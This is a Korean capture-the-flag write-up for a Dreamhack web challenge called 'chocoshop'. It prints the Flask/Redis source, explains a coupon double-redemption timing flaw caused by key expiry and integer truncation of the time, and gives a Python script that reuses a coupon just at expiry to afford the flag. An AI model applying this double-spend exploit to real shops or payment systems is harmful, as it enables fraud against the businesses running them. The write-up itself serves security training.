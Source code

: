 ## chocoshop
---

```python
from flask import Flask, request, jsonify, current_app, send_from_directory
import jwt
import redis
from datetime import timedelta
from time import time
from werkzeug.exceptions import default_exceptions, BadRequest, Unauthorized
from functools import wraps
from json import dumps, loads
from uuid import uuid4

r = redis.Redis()
app = Flask(__name__)

# SECRET CONSTANTS
# JWT_SECRET = 'JWT_KEY'
# FLAG = 'DH{FLAG_EXAMPLE}'
from secret import JWT_SECRET, FLAG

# PUBLIC CONSTANTS
COUPON_EXPIRATION_DELTA = 45
RATE_LIMIT_DELTA = 10
FLAG_PRICE = 2000
PEPERO_PRICE = 1500


def handle_errors(error):
    return jsonify({'status': 'error', 'message': str(error)}), error.code


for de in default_exceptions:
    app.register_error_handler(code_or_exception=de, f=handle_errors)


def get_session():
    def decorator(function):
        @wraps(function)
        def wrapper(*args, **kwargs):
            uuid = request.headers.get('Authorization', None)
            if uuid is None:
                raise BadRequest("Missing Authorization")

            data = r.get(f'SESSION:{uuid}')
            if data is None:
                raise Unauthorized("Unauthorized")

            kwargs['user'] = loads(data)
            return function(*args, **kwargs)
        return wrapper
    return decorator


@app.route('/flag/claim')
@get_session()
def flag_claim(user):
    if user['money'] < FLAG_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= FLAG_PRICE
    return jsonify({'status': 'success', 'message': FLAG})


@app.route('/pepero/claim')
@get_session()
def pepero_claim(user):
    if user['money'] < PEPERO_PRICE:
        raise BadRequest('Not enough money')

    user['money'] -= PEPERO_PRICE
    return jsonify({'status': 'success', 'message': 'lotteria~~~~!~!~!'})


@app.route('/coupon/submit')
@get_session()
def coupon_submit(user):
    coupon = request.headers.get('coupon', None)
    if coupon is None:
        raise BadRequest('Missing Coupon')

    try:
        coupon = jwt.decode(coupon, JWT_SECRET, algorithms='HS256')
    except:
        raise BadRequest('Invalid coupon')

    if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')

    rate_limit_key = f'RATELIMIT:{user["uuid"]}'
    if r.setnx(rate_limit_key, 1):
        r.expire(rate_limit_key, timedelta(seconds=RATE_LIMIT_DELTA))
    else:
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')


@app.route('/coupon/claim')
@get_session()
def coupon_claim(user):
    if user['coupon_claimed']:
        raise BadRequest('You already claimed the coupon!')

    coupon_uuid = uuid4().hex
    data = {'uuid': coupon_uuid, 'user': user['uuid'], 'amount': 1000, 'expiration': int(time()) + COUPON_EXPIRATION_DELTA}
    uuid = user['uuid']
    user['coupon_claimed'] = True
    coupon = jwt.encode(data, JWT_SECRET, algorithm='HS256').decode('utf-8')
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(user))
    return jsonify({'coupon': coupon})


@app.route('/session')
def make_session():
    uuid = uuid4().hex
    r.setex(f'SESSION:{uuid}', timedelta(minutes=10), dumps(
        {'uuid': uuid, 'coupon_claimed': False, 'money': 0}))
    return jsonify({'session': uuid})


@app.route('/me')
@get_session()
def me(user):
    return jsonify(user)


@app.route('/')
def index():
    return current_app.send_static_file('index.html')

@app.route('/images/<path:path>')
def images(path):
    return send_from_directory('images', path)

```

<br><br>

## Solution
---

timing을 맞춰야 하는데 코드를 보면 쿠폰을 생성하면 만료 시간이 설정되고, 쿠폰을 제출하면 두 개의 키가 redis에 등록되는데 두 번째 키가 중요하다.

두 번째 키의 만료 시간을 보면 쿠폰의 만료 시간에서 현재 시간을 뺀다.

즉, 두 번째 키는 쿠폰이 만료되는 시점에 없어진다고 보면 되는데.. 

```coupon['expiration'] < int(time()): raise BadRequest('Coupon expired!')``` 이 부분을 생각해보자.

<br>

쿠폰을 만든 시점이 정확히 100초라 할 때, 쿠폰 만료 시점은 정확히 145초이고 키 또한 정확히 145초에 만료된다.

지금이 정확히 145초라고 치면 일단 키는 만료되었는데, ```int(time())```부분에서 만약 ```time()``` 값이 ```145.1 ~ 145.9```초 사이에 있다고 하자.

이 시점에선 어차피 int를 통해 145초가 되므로 ```145<145```가 조건문을 통과할 수 있으며, 이미 145초를 지난, ```145.1 ~ 145.9```초 사이에 있으므로 두 번째 키 또한 만료되었다.

따라서 돈을 천원 더 넣을 수 있게 되어 2000원이 되므로 플래그를 사면 플래그를 alert 해준다.

<br>

```python
import requests
import time
import json

url = 'http://host3.dreamhack.games:{port}/coupon/claim'
headers = {
    "Authorization": "{uuid}",
    "Content-Type": "application/json, application/x-www-form-urlencoded"
}

res = requests.get(url, headers=headers)
# coupon_expire_time = int(time.time()) + 44.2

'''
코드 상으로는 res가 받은 시점에서는 이미 쿠폰은 생성된지 조금이라도 시간이 지나있다.

이 부분을 유의해서 쿠폰 만료 시간을 계산한 것.
'''

coupon = json.loads(res.text)
headers["coupon"] = coupon["coupon"]

url = 'http://host3.dreamhack.games:21345/coupon/submit'
res = requests.get(url, headers=headers)

'''
while (1):
    print("wait...")
    if (int(time()) == coupon_expire_time):  ---> 이 걸로 하면 키가 만료 되기 전에 보내지므로 안됨.
        res = requests.get(url, headers=headers)
        print(res.text)
        break
'''

time.sleep(44.2) 
# 쿠폰이 만료될 시점을 고려해서 키는 없어졌지만 아직 쿠폰 만료 시간과 int(time) 값이 동일할 때 보내야 함
res = requests.get(url, headers=headers)
print(res.text)
```

